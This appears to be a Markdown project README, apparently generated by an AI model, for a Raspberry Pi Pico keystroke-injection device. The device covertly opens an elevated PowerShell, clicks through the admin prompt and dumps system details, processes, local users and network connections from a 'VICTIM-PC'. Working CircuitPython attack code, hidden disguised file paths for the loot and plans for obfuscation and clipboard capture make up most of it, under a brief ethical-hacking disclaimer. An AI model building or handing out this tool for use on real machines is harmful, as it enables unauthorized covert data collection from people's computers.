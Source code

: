 Sure! Here's the content formatted as a clean Markdown (`.md`) file ready for GitHub or your blog:

````markdown
# 🛠️ Project: Offline USB Rubber Ducky with Raspberry Pi Pico

## 🎯 Goal  
Create a *Rubber Ducky*-style device using a Raspberry Pi Pico that, when plugged into a computer, automatically collects system information and saves it locally for later analysis—without needing internet connection or external scripts.

> This project was developed for educational purposes and testing in controlled environments (*ethical hacking lab environment*).

## 📦 What is a Rubber Ducky?  
A *USB Rubber Ducky* is a device that emulates a USB keyboard and can automatically type commands when connected to a machine. It is widely used in penetration testing and physical security demonstrations.

## ⚙️ Tools Used  
- **Raspberry Pi Pico**  
- **CircuitPython**  
- [Adafruit HID Library](https://github.com/adafruit/Adafruit_CircuitPython_HID)  
- **PowerShell** (for the payload)  
- Base project: [`pico-ducky`](https://github.com/dbisu/pico-ducky) by [dbisu](https://github.com/dbisu)  

## 📋 What does the device do?  
When the Raspberry Pi Pico is plugged into a PC:  
1. It emulates a keyboard (HID).  
2. Opens PowerShell with administrator privileges.  
3. Executes a series of commands to collect:  
   - System information (`Get-ComputerInfo`)  
   - Active processes (`Get-Process`)  
   - Local users (`Get-LocalUser`)  
   - TCP network connections (`Get-NetTCPConnection`)  
4. Saves all the information into a file named `audit.txt` on the Desktop.

### 📁 Hidden alternative locations  
```powershell
$out = "$env:APPDATA\Microsoft\Windows\Recent\syscache.txt"
# or
$out = "C:\ProgramData\sysinfo.log"
````

## 💻 Code (CircuitPython)

```python
import time
import board
import usb_hid
from adafruit_hid.keyboard import Keyboard
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS
from adafruit_hid.keycode import Keycode

keyboard = Keyboard(usb_hid.devices)
layout = KeyboardLayoutUS(keyboard)

time.sleep(3)

keyboard.press(Keycode.GUI, Keycode.R)
keyboard.release_all()
time.sleep(0.5)

layout.write("powershell\n")
time.sleep(1)

keyboard.press(Keycode.CONTROL, Keycode.SHIFT, Keycode.ENTER)
keyboard.release_all()
time.sleep(1.2)

keyboard.press(Keycode.ALT, Keycode.Y)
keyboard.release_all()
time.sleep(0.8)

payload = (
    '$out = "$env:USERPROFILE\\Desktop\\audit.txt"; '
    'Get-ComputerInfo | Out-File $out; '
    'Get-Process | Out-File $out -Append; '
    'Get-LocalUser | Out-File $out -Append; '
    'Get-NetTCPConnection | Out-File $out -Append'
)

layout.write(payload + '\n')
time.sleep(1)
layout.write("exit\n")
```

## 📷 Results

```
ComputerName           : VICTIM-PC
OSName                 : Microsoft Windows 10 Pro
SystemType             : x64-based PC
Username               : VICTIM\user
...
--- Process List ---
Name                  ID          CPU
------------------   ----------  ----
explorer.exe         1234        3.2
chrome.exe           4567        7.8

--- Users ---
Name                 Enabled
------------------   -------
Admin                True
Guest                False
```

## 🛡️ Ethical Considerations

This type of project can be used for:

* Physical security testing
* USB attack demonstrations
* Cybersecurity labs
* Penetration testing training

> **⚠️ Important:** Never use tools like this on systems you do not own or without explicit permission.

## 🔄 Next Steps

* Version with multiple selectable payloads (via physical button)
* Screenshot and clipboard capture
* Command obfuscation
* System language detection (keyboard layout)

## 📌 Conclusion

This project is a powerful demonstration of how an affordable device like the Raspberry Pi Pico can be used to automate complex tasks in seconds.
